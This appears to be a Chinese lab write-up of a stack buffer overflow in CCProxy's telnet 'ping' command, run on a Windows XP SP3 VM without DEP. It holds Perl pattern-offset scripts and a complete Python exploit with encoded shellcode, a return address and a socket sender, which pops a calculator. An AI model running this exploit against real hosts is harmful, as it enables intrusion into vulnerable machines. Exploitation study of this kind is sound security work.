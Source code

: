 # CCProxy缓冲区溢出实验

## 实验环境

溢出对象：CCProxy

调试工具：CDB、WinDbg、OllyDBG、IDA Pro

实验环境：VMware、Windows xp sp3（关闭dep）、python

## 测试CCProxy漏洞

1. ipconfig 


主机IP为192.168.1.104

2. telnet 192.168.1.104 23

```
CCProxy Telnet>CCProxy Telnet Service Ready.
```

3. 挂起CCProxy

```
cdb.exe -pn ccproxy
```

输入g调试工具开始运行

4. ping AAAA

![image](https://user-images.githubusercontent.com/104044489/233097959-44dd30ee-771b-467b-bff5-08cac8c5d0f0.png)

5. ping AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA…

![image](https://user-images.githubusercontent.com/104044489/233098106-6dfed4e7-c256-44c0-ae80-6fd49c512822.png)

6. dd esi/esp

![image](https://user-images.githubusercontent.com/104044489/233098196-492e2d0a-47a1-45f7-a8e8-d31ba70fe06f.png)

7. 结论

CCProxy的缓冲区溢出条件在ping 1000~2000个字符之间。

## 攻击思路

1. 获取RET相对偏移量

获取方法：利用一串不重复的字符填充缓冲区，然后查看覆盖RET的字符串，计算它们在整个字符串中的位置，从而得出缓冲区的大小及RET的偏移

编写patternCreate.pl脚本代码生成2000个不重复的字符，patternCreate.pl主要代码如下：

```perl
sub PatternCreate {
    my ($length) = @_;
    my ($X, $Y, $Z);
    my $res;
    while (1)
    {
        for my $X ("A" .. "Z") { for my $Y ("a" .. "z") { for my $Z (0 .. 9) {
           $res .= $X;
           return $res if length($res) >= $length;
           $res .= $Y;
           return $res if length($res) >= $length;
           $res .= $Z;
           return $res if length($res) >= $length;
        }}}
    }
}
```

ping生成的字符串，cdb捕捉到异常

![image](https://user-images.githubusercontent.com/104044489/233098268-ea90ab37-c17c-412d-b176-c12760913e42.png)

从图中可以看到EIP寄存器的值为：0x68423768；通过patternOffset.pl计算出它在整个长为2000的字符串中的偏移。

patternOffset.pl代码如下：

```perl
sub PatternOffset {
     my $pattern = shift;
     my $address = shift;
     my $endian = @_ ? shift() : 'V';
     my @results;
     my ($idx, $lst) = (0,0);
     $address = pack($endian, hex($address));
     $idx = index($pattern, $address, $lst);
     while ($idx > 0)
     {
          push @results, $idx;
          $lst = $idx + 1;
          $idx = index($pattern, $address, $lst);
     }
     return @results;
}
```

在cmd中输入perl.exe patternOffset.pl 68423768 2000运行脚本：

![image](https://user-images.githubusercontent.com/104044489/233098307-1f056338-78bf-48cc-9e5c-56e06e3ab4e8.png)

这说明，RET相对缓冲区起始地址的偏移大小是1012字节。

使用同样的方法获取ESP偏移量为0x61413161

```
perl.exe patternOffset.pl 61413161 2000
```

![image](https://user-images.githubusercontent.com/104044489/233098347-9c9b4b3a-2ecc-41b5-b064-dd7e1e4f4446.png)

这说明ESP指向字符串的第4个字节

## 构造shellcode

攻击代码：

```python
import socket

def send(attackcode, host='192.168.1.104', port=23):
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((host, port))
        data = b'ping ' + attackcode + b'\r\n'
        sock.send(data)
        sock.recv(1000)
        
shellcode = b"\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30" + \
b"\x42\x36\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42" + \
b"\x30\x41\x44\x41\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x54\x42\x50\x42\x50\x42\x30\x4b\x58\x45\x34" + \
b"\x4e\x33\x4b\x38\x4e\x37\x45\x30\x4a\x57\x41\x30\x4f\x4e\x4b\x48\x4f\x44\x4a\x31\x4b\x38\x4f\x45\x42\x52\x41\x30\x4b\x4e" + \
b"\x49\x54\x4b\x38\x46\x53\x4b\x48\x41\x30\x50\x4e\x41\x33\x42\x4c\x49\x59\x4e\x4a\x46\x38\x42\x4c\x46\x47\x47\x30\x41\x4c" + \
b"\x4c\x4c\x4d\x30\x41\x30\x44\x4c\x4b\x4e\x46\x4f\x4b\x53\x46\x45\x46\x32\x46\x50\x45\x37\x45\x4e\x4b\x48\x4f\x45\x46\x42" + \
b"\x41\x30\x4b\x4e\x48\x46\x4b\x38\x4e\x50\x4b\x44\x4b\x58\x4f\x45\x4e\x41\x41\x50\x4b\x4e\x4b\x48\x4e\x51\x4b\x38\x41\x50" + \
b"\x4b\x4e\x49\x48\x4e\x35\x46\x52\x46\x50\x43\x4c\x41\x33\x42\x4c\x46\x56\x4b\x38\x42\x34\x42\x53\x45\x38\x42\x4c\x4a\x37" + \
b"\x4e\x50\x4b\x38\x42\x54\x4e\x50\x4b\x48\x42\x37\x4e\x31\x4d\x4a\x4b\x48\x4a\x46\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x48" + \
b"\x42\x4b\x42\x30\x42\x30\x42\x30\x4b\x38\x4a\x36\x4e\x33\x4f\x55\x41\x53\x48\x4f\x42\x46\x48\x45\x49\x48\x4a\x4f\x43\x58" + \
b"\x42\x4c\x4b\x37\x42\x55\x4a\x56\x42\x4f\x4c\x58\x46\x30\x4f\x35\x4a\x46\x4a\x49\x50\x4f\x4c\x38\x50\x50\x47\x55\x4f\x4f" + \
b"\x47\x4e\x43\x56\x41\x46\x4e\x36\x43\x46\x42\x30\x5a"

RET_addr = bytes.fromhex('7ffa4512')[::-1]
attackcode = ((b"\x90" *4 + shellcode).ljust(1012,b"\x90") + RET_addr).ljust(2000,b"\x90")
```

## 攻击测试

1. 打开ccproxy并用cdb挂起，telnet连接到23端口

2. 运行python代码，输入`send(attackcode)`回车

3. 程序执行，计算器程序弹出，cdb中记录程序溢出详细情况

![image](https://user-images.githubusercontent.com/104044489/233098386-ba95751f-a965-403e-8d82-956d7ec2238f.png)

攻击成功
